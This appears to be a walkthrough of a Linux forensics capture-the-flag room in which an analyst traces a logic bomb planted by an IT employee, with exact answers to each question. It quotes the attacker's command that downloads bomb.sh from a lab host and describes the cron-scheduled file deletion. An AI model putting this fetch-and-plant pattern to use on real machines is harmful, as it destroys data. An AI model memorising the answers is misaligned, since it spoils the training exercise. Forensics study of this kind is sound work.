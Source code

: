 Use your Linux forensics knowledge to investigate an incident.

# Task 1

Hey, kid! Good, you’re here!

  

Not sure if you’ve seen the news, but an employee from the IT department of one of our clients (CyberT) got arrested by the police. The guy was running a successful phishing operation as a side gig.

  

CyberT wants us to check if this person has done anything malicious to any of their assets. Get set up, grab a cup of coffee, and meet me in the conference room.

  

## Connecting to the machine

Start the virtual machine in split-screen view by clicking on the green "Start Machine" button on the upper right section of this task. Alternatively, you can connect to the VM using the credentials below via "ssh".

Answer the questions below

Grab a cup of coffee.

# Task 2 - Linux Forensics Review

This room requires basic knowledge of Linux and is based on the [Linux Forensics](https://tryhackme.com/room/linuxforensics) room. A cheat sheet is attached below, which you can also download by clicking on the blue `Download Task Files` button on the right.

# Task 3 - Nothing suspicious ... So far

Here’s the machine our disgruntled IT user last worked on. Check if there’s anything our client needs to be worried about.

My advice: Look at the privileged commands that were run. That should get you started.

The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?

Logon to target VM using SSH
`history` we can see commands that were run.  There is nothing there that matches the mask in the answer, check `/home/cybert/.bash_history` and `/home/it-admin/.bash_history`, nothing there.

`cat /var/log/auth.log | grep sudo` shows commands run with `sudo`

Answer:  `/usr/bin/apt install dokuwiki`


What was the present working directory (PWD) when the previous command was run?

In the same output as above

Answer: `/home/cybert`

# Task 4 - Let's see if you did anything bad

Keep going. Our disgruntled IT was supposed to only install a service on this computer, so look for commands that are unrelated to that.

Answer the questions below

Which user was created after the package from the previous task was installed?

Looking the file same output

Answer: `it-admin`


A user was then later given sudo priveleges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)

Same output the command `visudo`

Answer: `Dec 28 06:27:34`


A script file was opened using the "vi" text editor. What is the name of this file?

Answer: `bomb.sh`

# Task 5 - Bomb has been planted.  But when and where?

That `bomb.sh` file is a huge red flag! While a file is already incriminating in itself, we still need to find out where it came from and what it contains. The problem is that the file does not exist anymore.

Answer the questions below

What is the command used that created the file bomb.sh?

`cat /home/it-admin/.bash_history`

Answer: `curl 10.10.158.38:8080/bomb.sh --output bomb.sh`

The file was renamed and moved to a different directory. What is the full path of this file now?

Same output we see the file editing in `VI`
`cat /home/it-admin/.viminfo`

We can see a file save as `/bin/os-update.sh`

Answer: `/bin/os-update.sh`

When was the file from the previous question last modified? (Format: Month Day HH:MM)

`ls -la --full-time /bin/os-update.sh`

Answer: `Dec 28 06:29`

What is the name of the file that will get created when the file from the first question executes?

`cat /bin/os-update.sh`

Answer: `goodbye.txt`

# Task 6 - Following the fuse

So we have a file and a motive. The question we now have is: how will this file be executed?

  

Surely, he wants it to execute at some point?  

Answer the questions below

At what time will the malicious file trigger? (Format: HH:MM AM/PM)

`cat /etc/crontab`

Answer: `08:00 AM`

# Task 7 - Conclusion

Thanks to you, we now have a good idea of what our disgruntled IT person was planning.

We know that he had downloaded a previously prepared script into the machine, which will delete all the files of the installed service if the user has not logged in to this machine in the last 30 days. It’s a textbook example of a  “logic bomb”, that’s for sure.

Look at you, second day on the job, and you’ve already solved 2 cases for me. Tell Sophie I told you to give you a raise.

Answer the questions below

I’m kidding, of course! But you did good, kid.